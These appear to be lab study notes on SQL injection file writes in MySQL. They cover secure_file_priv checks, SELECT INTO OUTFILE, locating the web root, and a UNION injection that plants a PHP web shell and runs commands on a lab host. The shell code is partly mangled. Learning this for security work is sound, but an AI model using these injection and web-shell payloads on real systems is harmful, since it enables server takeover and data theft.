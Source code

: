 
When it comes to writing files to the back-end server, it becomes much more restricted in modern DBMSes, since we can utilize this to write a web shell on the remote server, hence getting code execution and taking over the server. This is why modern DBMSes disable file-write by default and require certain privileges for DBA's to write files. Before writing files, we must first check if we have sufficient rights and if the DBMS allows writing files.

---
## Write File Privileges
To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled <> covered already
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

#### secure_file_priv
>An empty value lets us read files from the entire file system. Otherwise, if a certain directory is set, we can only read from the folder specified by the variable. On the other hand, `NULL` means we cannot read/write from any directory. MariaDB has this variable set to empty by default, which lets us read/write to any file if the user has the `FILE` privilege


>`MySQL` uses `/var/lib/mysql-files` as the default folder. This means that reading files through a `MySQL` injection isn't possible with default settings. Even worse, some modern configurations default to `NULL`, meaning that we cannot read/write files anywhere within the system.

enumerate:
```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```



---
#### ##**IMPORTANT:**##
>as all variables and most configurations' are stored within the `INFORMATION_SCHEMA` database.

----


```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

our-case:
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

>empty, meaning that we can read/write files to any location.


## SELECT INTO OUTFILE
`SELECT .. INTO OUTFILE` statement
can be used to write data from select queries into files. This is usually used for exporting data from tables.

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

```bash
AhmaDb0x@htb[/htb]$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

It is also possible to directly `SELECT` strings into files, allowing us to write arbitrary files to the back-end server.
```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

>Tip: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

## Writing Files through SQL Injection

Let's try writing a text file to the webroot and verify if we have write permissions. The below query should write `file written successfully!` to the `/var/www/html/proof.txt` file, which we can then access on the web application


---
```bash

**Note:** To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

```

## Writing a Web Shell
PHP web shell to the webroot folder. We can write the following PHP webshell to be able to execute commands directly on the back-end server:
```bash
<?php $y$tem($_rqst[0]); ?>
```
![[Pasted image 20250329055136.png]]

```bash
cn' union select "",'<?php $y$tem($_rqst[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

Once again, we don't see any errors, which means the file write probably worked. This can be verified by browsing to the `/shell.php` file and executing commands via the `0` parameter, with `?0=id` in our URL:
The output of the `id` command confirms that we have code execution and are running as the `www-data` user.


```bash
http://94.237.58.78:43299/shell.php?0=cd%20..;ls;cat%20flag.txt
```

